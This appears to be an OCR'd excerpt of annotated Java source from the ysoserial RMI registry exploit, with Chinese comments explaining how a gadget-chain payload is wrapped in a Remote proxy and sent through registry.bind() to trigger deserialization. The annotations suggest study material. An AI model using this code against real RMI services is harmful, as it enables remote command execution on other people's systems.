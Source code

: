 ```java
    // 如果失败升级为SSL连接
        registry = LocateRegistry.getRegistry(host, port, new RMISSLClientSocketFactory());
    }

    // 确保exp不在构造函数或反序列化阶段触发
    exploit(registry, payloadClass, command);
}

public static void exploit(final Registry registry,
                           final Class<? extends ObjectPayload> payloadClass,
                           final String command) throws Exception {
    new ExecCheckingSecurityManager().callWrapped(new Callable<Void>(){public Void call() throws Exception {
        ObjectPayload payloadObj = payloadClass.newInstance();
        Object payload = payloadObj.getObject(command);
        String name = "pwned" + System.nanoTime();
        // 这里的createMap()创建了一个hashmap，键是"pwned+时间戳",值是payload
        // createMemoitizedProxy()由上面的hashmap，创建一个Remote子类的代理对象
        Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
        try {
            // 调用bind()函数，触发后续反序列化调用
            registry.bind(name, remote);
        } catch (Throwable e) {
            e.printStackTrace();
        }
        Utils.releasePayload(payloadObj, payload);
        return null;
    }});
}


/**
**	Gadgets.java
**/
public static Map<String, Object> createMap ( final String key, final Object val ) {
    final Map<String, Object> map = new HashMap<String, Object>();
    map.put(key, val);
    return map;
}

public static <T> T createMemoitizedProxy ( final Map<String, Object> map, final Class<T> iface, final Class<?>... ifaces ) throws Exception {
    return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
}

public static InvocationHandler createMemoizedInvocationHandler ( final Map<String, Object> map ) throws Exception {
    return (InvocationHandler) Reflections.getFirstCtor(ANN_INV_HANDLER_CLASS).newInstance(Override.class, map);
}

public static <T> T createProxy ( final InvocationHandler ih, final Class<T> iface, final Class<?>... ifaces ) {
    final Class<?>[] allIfaces = (Class<?>[]) Array.newInstance(Class.class, ifaces.length + 1);
    allIfaces[ 0 ] = iface;
    if ( ifaces.length > 0 ) {
        System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
    }
    return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
}
```
